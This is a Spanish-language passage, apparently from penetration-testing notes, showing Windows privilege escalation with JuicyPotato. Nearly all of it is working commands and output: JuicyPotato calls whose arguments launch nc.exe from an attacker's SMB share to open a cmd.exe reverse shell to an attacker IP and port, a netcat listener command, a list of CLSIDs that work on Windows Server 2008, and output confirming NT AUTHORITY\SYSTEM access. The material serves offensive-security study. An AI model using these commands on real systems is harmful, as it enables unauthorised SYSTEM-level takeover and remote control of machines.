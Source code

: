Pero si tuvieramos el binario directamente podremos hacerlo de la siguiente forma:

```powershell
JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/C \\<IP_ATTACKER>\kali\nc.exe -e cmd.exe <IP_ATTACKER> <PORT>" -t *
```

Info:

```
JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/C \\192.168.28.5\kali\nc.exe -e cmd.exe 192.168.28.5 5555" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
COM -> recv failed with error: 10038
```

Vemos que nos esta dando un error relacionado con las `CLSIDs` por lo que vamos a utilizar otras genericas que suelen funcionar en un `Windows Server 2008`:

```
===================LISTA_CLSID====================

{4991d34b-80a1-4291-83b6-3328366b9097} -> ERROR
{e60687f7-01a1-40aa-86ac-db1cbf673334} -> CORRECTA
{ba126ad1-2166-11d1-b1d0-00805fc1270e} -> NO TESTEADA

==================================================
```

Si por ejemplo probamos con esta generica `{e60687f7-01a1-40aa-86ac-db1cbf673334}` veremos que si nos funciona:

Pero antes nos pondremos a la escucha con el puerto que especifiquemos en la herramienta `JuicyPotato.exe`.

```shell
nc -lvnp <PORT>
```

Ahora si ejecutamos de nuevo con el nuevo `CLSID` de la siguiente manera:

```powershell
JuicyPotato.exe -l 1337 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -p c:\windows\system32\cmd.exe -a "/C \\<IP_ATTACKER>\kali\nc.exe -e cmd.exe <IP_ATTACKER> <PORT>" -t *
```

Info:

```
JuicyPotato -l 1337 -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}" -p c:\windows\system32\cmd.exe -a "/C \\192.168.28.5\kali\nc.exe -e cmd.exe 192.168.28.5 5555" -t *
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 1337
....
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
